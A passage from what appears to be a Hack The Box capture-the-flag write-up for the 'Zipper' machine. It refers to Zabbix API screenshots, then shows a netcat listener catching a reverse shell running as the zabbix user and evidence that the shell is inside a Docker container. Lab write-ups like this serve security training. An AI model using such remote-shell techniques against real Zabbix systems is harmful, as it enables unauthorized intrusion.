 Response:

![](/assets/images/htb-writeup-zipper/apiscript_response.png)

**Execute script**

Body:

![](/assets/images/htb-writeup-zipper/apiexec.png)

### First shell in the container

We got a shell after executing the script from Zabbix:
```
root@ragingunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 54366
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
$ hostname
8e5a23a4dfec
$
```

Based on the random hostname and the `.dockerenv` file in the root directory we can assume we're currently in a container:
```
drwxr-xr-x   1 root root 4096 Oct 20 19:27 .
drwxr-xr-x   1 root root 4096 Oct 20 19:27 ..
-rwxr-xr-x   1 root root    0 Oct 20 19:27 .dockerenv
```
